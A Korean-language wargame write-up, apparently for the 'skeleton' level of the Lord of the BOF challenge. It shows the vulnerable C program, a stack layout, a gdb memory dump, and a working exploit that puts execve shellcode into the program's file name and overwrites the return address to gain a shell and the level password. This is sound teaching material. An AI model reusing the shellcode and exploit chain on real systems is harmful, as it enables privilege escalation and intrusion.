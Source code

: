 ============================================================================================================
[redhat-lob] (10) skeleton
============================================================================================================

.. graphviz::

    digraph foo {
        a -> b -> c -> d;

        a [shape=box, label="dummy * 44 + program name address"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="program name address"];
    }

|

Source Code
============================================================================================================


.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i, saved_argc;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        // argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter!
        for(i=0; i<saved_argc; i++)
            memset(argv[i], 0, strlen(argv[i]));
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) 
    SFP     (4byte)
    RET     (4byte) 
    argc    (4byte)
    argv    (4byte)  
    ......
    program name     <
    NULL
    ----------------
    HIGH    
    ================

|

Segmentation fault
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1] value의 47번째 문자가 "\\xbf"이어야 함
- argv[1] 값의 길이가 48 미만 이어야 함
- argv[0] 값, argv[1] 값을 초기화하여 argv[0], argv[1] 주소로 버퍼오버플로우를 진행할 수 없다.


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행.
    $ bash2

    $ ./skeleton `python -c 'print "a"*47'`
    stack is still your friend.

    $ ./skeleton `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================


프로그램 이름에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 "\\x2f" 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않는다.

"\\x2f"가 없는 쉘코드로 파일명을 생성하도록 한다.

.. code-block:: console
    
    $ ln skeleton2 `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    $ gdb -q `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/vampire/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒P▒▒▒bWR▒▒▒QX]R▒▒PS▒▒1Ұ
                                             ̀ `python -c 'print "a"*47+"\xbf"'`

    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()
    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa0c:     0x400309cb      0x00000002      0xbffffa54      0xbffffa60
    0xbffffa1c:     0x40013868      0x00000002      0x08048450      0x00000000
    0xbffffa2c:     0x08048471      0x08048500      0x00000002      0xbffffa54
    0xbffffa3c:     0x08048390      0x080486ac      0x4000ae60      0xbffffa4c
    0xbffffa4c:     0x40013e90      0x00000002      0xbffffb4c      0xbffffbe6
    0xbffffa5c:     0x00000000      0xbffffc17      0xbffffc39      0xbffffc43
    0xbffffa6c:     0xbffffc51      0xbffffc70      0xbffffc80      0xbffffc99
    0xbffffa7c:     0xbffffcb4      0xbffffcbf      0xbffffccd      0xbffffd0e
    (중략)
    0xbfffff5c:     0x35333b31      0x682f003a      0x2f656d6f      0x706d6176
    0xbfffff6c:     0x2f657269      0x90909090      0x90909090      0x90909090
    0xbfffff7c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff8c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff9c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffac:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffbc:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffcc:     0x90909090      0x90909090      0xba50c031      0x11111111
    0xbfffffdc:     0x1e1ec281      0xba525762      0x11111111      0x511ec281
    0xbfffffec:     0x89525d58      0x895350e3      0xb0d231e1      0x0080cd0b
    0xbffffffc:     0x00000000      Cannot access memory at address 0xc0000000
    ==========================================================================

program명 주소를 찾아서 RET로 덮어씌우면 됩니다.


RET를 프로그램 이름이 존재하는 주소로 덮어씌워 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- dummy*40
    SFP     (4byte)  <- dummy*4
    RET     (4byte)  <- program name 주소
    program name     
    ----------------
    HIGH    
    ================

|

.. code-block:: console

    $ ./`python -c 'print "\x90"*100+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` `python -c 'print "a"*44+"\xbc\xff\xff\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒▒▒▒

    bash$ whoami
    skeleton
    bash$ my-pass
    euid = 510
    shellcoder
